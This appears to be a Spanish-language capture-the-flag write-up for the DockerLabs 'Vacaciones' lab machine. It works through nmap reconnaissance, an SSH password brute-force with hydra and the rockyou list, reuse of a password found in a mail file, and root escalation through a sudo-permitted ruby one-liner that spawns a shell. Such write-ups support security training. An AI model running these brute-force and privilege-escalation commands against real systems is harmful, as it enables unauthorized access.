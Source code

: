 # Máquina Vacaciones

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> @romabri -> [romabri](https://github.com/romabri)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4116eb546434d169eedcd9219c72a5c1 (RSA)
|   256 f0c42b02503a49a7a234b80961fd2c6d (ECDSA)
|_  256 dfe946319aef0d81311f77e429f5c988 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Al inspeccionar la web encontramos ese comentario en el código fuente:

![Pasted image 20240425184410](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1525b762-1c0b-4d91-a142-fc3fed1ae569)

--------------
## Explotación

Utilizamos hydra con los usuarios **camilo** y **juan** al **ssh**:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Encontramos las credenciales de camilo -> **camilo:password1**

Nos conectamos como el usuario camilo y estamos dentro !

------------
## Escalada de privilegios

Revisamos el supuesto correo que nos indicaba en la web:

```shell
cd /var/mail
cd camilo
cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probamos la contraseña con el usuario **juan** y funciona. -> **juan:2k84dicb**
Hemos migrado al usuario **juan**.

Hacemos un **sudo -l**

```shell
sudo -l
---------------------------------
User juan may run the following commands on b078e5dff54b:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

